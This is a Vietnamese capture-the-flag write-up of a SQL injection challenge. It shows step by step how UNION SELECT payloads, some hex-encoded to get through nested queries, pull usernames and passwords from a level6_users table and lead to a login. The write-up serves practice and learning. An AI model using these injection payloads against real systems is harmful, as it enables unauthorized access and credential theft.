







## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 7-8/5/2022

- Dựa vào gợi ý <code>Get the first user in table level6_users with status 1</code>. Ta sẽ dùng <code>ORDER BY</code> để tìm số lượng cột.
- Sau khi thử, ta có số cột là 5.
  
  

- Tiếp theo, ta sẽ dùng union để tim các cột dễ bị tấn công.<code>union select 1,2,3,4,5 from level6_users#</code>
  
  

- Nhưng không có kết quả trả về. Sau khi tìm hiểu, ta biết được thử thách này dùng 2 truy vấn lồng nhau.
- Nên ta sẽ thử dùng <code>union select 'union all select 1,2,3,4,5 from level6_users#,2,3,4,5 from level6_users#</code>. Nhưng kết quả trả về vẫn là <code>User not found</code>
- Tiếp tục, ta sử mã hóa hex <code>' union select 1,2,3,4,5,#</code> và lần lượt thay username vào lần lượt các vị trí 1,2,3,4,5. Và ở lần thử thứ 2, khi username ở cột thử 2, ta có kết quả trả về là 2 và 4.
  
  

- Vì đã biết được cột 2 và 4 dễ bị khai thác. Nên ta sẽ tấn công union với <code>'union all select 1,username,3,password,5 from level6_users#</code> sau khi mã hóa hex là <code>27756e696f6e20616c6c2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f757365727323</code>
  
  

- Lúc này, ta thử đăng nhập với username và password đã lấy được.

  

- Kết quả trả về ta đã đăng nhập đúng nhưng thiếu <code>status=1</code>. Nên ta thử thêm vào câu truy vấn <code>'union all select 1,username,3,password,5 from level6_users where status=1#</code>. Sau khi thực hiện mã hóa hex ta được <code>27756e696f6e20616c6c2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f7573657273207768657265207374617475733d3123</code>

  

- Ta thử đăng nhập lại và thành công.
  
  